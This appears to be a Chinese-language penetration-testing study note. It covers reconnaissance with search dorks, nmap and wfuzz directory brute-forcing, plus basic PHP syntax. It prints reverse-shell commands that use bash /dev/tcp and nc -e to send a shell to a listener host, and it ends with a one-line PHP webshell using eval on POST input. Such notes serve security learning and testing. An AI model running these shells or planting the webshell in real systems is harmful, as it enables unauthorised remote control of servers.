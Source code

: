 
## 信息收集

1. 被动信息收集

   1. whois：查询域名信息、手机号，再通过手机号查询其他关联网站
   2. 谷歌、百度等搜索引擎：
   3. shodan.io、fofa.so:物联网搜索引擎
   4. https://www.zoomeye.org/
   5. 微步在线：https://x.threatbook.cn/   ：查询历史ip、查找子域名、子站、ip反查域名、web指纹扫描
   6. 搜索某域名下所有网站：site：taobao.com
   7. inurl:admin
   8. text:login
   9. intitle：
   10. filetype:doc
   11. 多种语法连用，用空格连接，例如：site：taobao.com  inurl:admin

2. 主动信息收集：

   1. 目标端口（确认目标开启了什么服务）
   2. 目标子域名
   3. 目标路径、目录
   4. 目标指纹

3. 使用nmap扫描

   1. 扫描所有端口：nmap （-sS） 192.168.23.132
   2. 扫描固定端口：nmap  -p 80 192.168.23.132
   3. 扫描一个范围的端口：nmap  -p 80-90 192.168.23.132
   4. 显示扫描过程：-V
   5. 扫描一个网段中的ip(扫不到私网IP)：nmap -sP 192.168.200.1/24
   6. TCP扫描：-sT
   7. UDP扫描：-sU
   8. 扫描目标系统信息：-A

4. 爬虫协议文件：rebots.txt文件，里面包括一些重要的目录或路径

5. 使用fuzz或burpsuite爆破出某站下的目录

   1. wfuzz -w 1.txt --hc 404,502 http://192.168.200.1/FUZZ
      1. 1.txt是字典文件，404、502是不想看到的相应
   2. burpsuite是用攻击模块，payload为站的目录，加载字典

6. 爆破子域名

   1. 在线爆破

7. web指纹识别

8. 反弹shell（可以将一个webshell转为一个系统shell）

   1. 启动端口：nc -lvvp 8080
   2. 反弹shell：bash -i >& /dev/tcp/192.168.200.131/8080 0>&1
   3. 反弹sheel：nc 192.168.200.131 8080 -e /bin/bash

9. 渗透测试的第一步：信息收集

   

## php

1. 整个文件必须在<?php     code         ?>之中
2. 每个语句后面要加分号；
3. 变量前一面加$
4. 输出语句 echo
5. header("Content-Type:text/html;charset=utf-8");
6. 字符串用 **.** 连接
7.  单引号不能用 $ 变量，    
8. 双引号能用  $ 变量表示变量，然后外部依然后双引号
9. 注释/*
10. 一句话木马，eval(@$_POST['a']);